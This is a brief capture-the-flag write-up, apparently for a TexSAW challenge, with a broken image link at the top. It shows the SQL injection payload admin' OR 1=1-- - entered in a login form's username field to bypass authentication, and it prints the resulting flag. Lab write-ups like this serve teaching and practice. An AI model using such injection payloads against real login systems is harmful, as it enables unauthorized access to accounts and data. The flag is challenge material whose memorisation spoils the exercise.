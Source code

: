 
In the username filed type
```
admin' OR 1=1-- -
```

Write any value in password field and press Login

We get flag

flag : texsaw{IEYiCctrKhUtvQ5mDvvxjjDI7x3n2Jew9jkWQojt}
